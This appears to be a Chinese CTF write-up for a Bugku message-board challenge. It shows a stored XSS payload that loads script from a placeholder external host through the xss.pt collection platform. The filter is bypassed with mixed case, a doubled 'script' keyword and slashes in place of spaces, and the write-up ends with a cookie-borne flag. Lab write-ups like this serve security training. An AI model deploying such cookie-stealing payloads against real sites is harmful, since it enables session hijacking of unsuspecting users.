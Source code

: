 ```yaml
---
title: bugku WEB 留言板1
date: 2023-01-01 18:00 +0800
categories: [CTF,WEB]
tags: [web,bugku]
media_subpath: /
---
```


在xss.pt 注册一个账号，配置XSS

![img](assets/clip_image002.jpg)

![img](assets/clip_image004.jpg)

我们复制srcipt这一条

```html
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有大小写+双写可以过滤srcipt，空格使用反斜杠进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](assets/clip_image006.jpg)

![img](assets/clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}